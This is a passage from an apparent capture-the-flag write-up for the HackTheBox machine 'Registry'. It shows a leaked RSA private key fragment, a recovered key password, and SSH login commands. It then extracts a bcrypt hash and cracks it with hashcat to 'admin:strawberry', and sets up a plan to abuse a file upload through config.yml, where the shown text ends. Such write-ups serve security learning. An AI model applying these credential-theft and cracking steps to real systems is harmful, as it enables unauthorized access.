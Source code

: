 ```
ot6kFb4G6gcxGpqSZKY7IHSp49I4kFsC7+tx7LU5/wqC9vZfuds/TM7Z+uECPOYI
f41H5YN+V14S5rU97re2w49vrBxM67K+x930niGVHnqk7t/T1jcErROrhMeT6go9
RLI9xScv6aJan6xHS+nWgxpPA7YNo2rknk/ZeUnWXSTLYyrC43dyPS4FvG8N0H1V
94Vcvj5Kmzv0FxwVu4epWNkLTZCJPBszTKiaEWWS+OLDh7lrcmm+GP54MsLBWVpr
-----END RSA PRIVATE KEY-----     
```

We also see:

_randomnumbers_/diff/etc/profile.d/01-ssh.sh

This gives us a password for the id_rsa key:

**GkOcz221Ftb3ugog**

We can now chmod 600 the key and use it to connect:

```
chmod 600 id_rsa
ssh -i id_rsa bolt@registry.htb
Password: GkOcz221Ftb3ugog
```

## Enumeration

At http://backup.registry.htb/bolt/bolt we're presented with a login page.

In /var/www/html/bolt/app/database/bolt.db, we get the following hash:

```
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

We can crack this with hashcat:

```
hashcat -m 3200 wwwpass.txt /usr/share/wordlists/rockyou.txt
```

We get the following credentials:

**admin:strawberry**

We can use these credentials to log into the website!

## Pivoting to www-data

We can exploit the file upload feature on the website, since we have admin access. However, we need to edit a config.yml file first, and find exactly where the files are being stored, as the website is somewhat broken.

### Editing the config.yml File

There's a config.yml file on the machine that dictates what extensions are allowed to be uploaded. It can be edited at the following URL:

http://backup.registry.htb/bolt/bolt/file/edit/config/config.yml
